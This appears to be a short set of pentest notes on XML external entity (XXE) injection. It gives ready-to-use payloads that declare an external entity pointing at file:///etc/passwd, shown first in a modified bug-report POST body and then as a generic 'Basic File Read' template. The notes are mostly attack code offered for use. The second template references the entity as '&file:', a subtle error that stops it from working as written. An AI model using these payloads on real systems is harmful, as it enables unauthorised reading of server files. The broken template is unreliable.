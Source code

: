 # XXE Payloads

When you notice XML in the website or through the HTTP headers, we should see if we can get some XXE.

### Example

If you have an XML POST that looks like this.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>we</title>
                <cwe>we</cwe>
                <cvss>we</cvss>
                <reward>we</reward>
                </bugreport>                                                                                        
```

For a file read injection we can change it to look something like this. `!DOCTYPE` - declares a set of rules about what can appear in the xml. `!ENTITY` - is similar to defining a variable that you can call on later in the file. `SYSTEM` - tells the XML parser to retrieve the entity from an external source allowing for XXE.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>test</title>
 <cwe>test</cwe>
 <cvss>test</cvss>
 <reward>&file;</reward>
</bugreport>
```

This will attempt to read the `/etc/passwd` file AS the webserver.

### Basic File Read

Basic file read looks like this.

```xml
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<any>
<title>test</title>
  <textoutput>&file:</textoutput>
</any>
```
